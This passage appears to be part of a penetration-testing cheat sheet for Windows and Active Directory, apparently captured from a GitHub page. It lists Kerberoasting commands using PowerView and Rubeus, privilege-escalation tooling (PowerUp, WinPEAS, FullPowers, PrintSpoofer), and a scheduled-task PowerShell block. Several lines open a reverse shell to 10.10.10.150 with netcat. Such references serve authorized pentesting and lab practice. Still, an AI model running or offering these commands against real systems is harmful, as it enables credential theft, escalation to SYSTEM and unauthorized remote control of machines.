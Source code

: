With Powerview:
```
# List users with SPN
Get-NetUser -SPN

# Request TGS for every SPN
Invoke-Kerberoast
```
With Rubeus:
```
# Kerberoasting and outputing on a file with a specific format
Rubeus.exe kerberoast /domain:<domain_name> /outfile:<filename> 

# Kerberoast specific user account
Rubeus.exe kerberoast /user:<user> /domain:<domain_name> /outfile:<filename> /simple

# Kerberoast by specifying credentials 
Rubeus.exe kerberoast /creduser:<user> /credpassword:<password> /domain:<domain_name> /outfile:<filename>
```

### Privilege Escalation

#### PowerUp

```
Invoke-AllChecks
```

#### WinPeas
```
.\winpeas.exe cmd
```

#### FullPowers
Abuse some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` in order to obtain `SeAssignPrimaryToken` and `SeImpersonatePrivilege` tokens.
```
.\fullpw.exe -c ".\nc.exe 10.10.10.150 443 -e powershell" -z
```
Powershell way:
```
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeShutdownPrivilege", "SeUndockPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\Windows\Temp\nc64.exe 10.10.10.150 443 -e powershell`""
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask" -Principal $TaskPrincipal
Start-ScheduledTask -TaskName "SomeTask"
```

#### PrintSpoofer
Escalate to SYSTEM.
The token `SeImpersonatePrivilege` is needed to escalate privileges.
```
.\pspoof.exe -c "C:\windows\temp\custom\nc.exe 10.10.10.150 443 -e powershell"
```
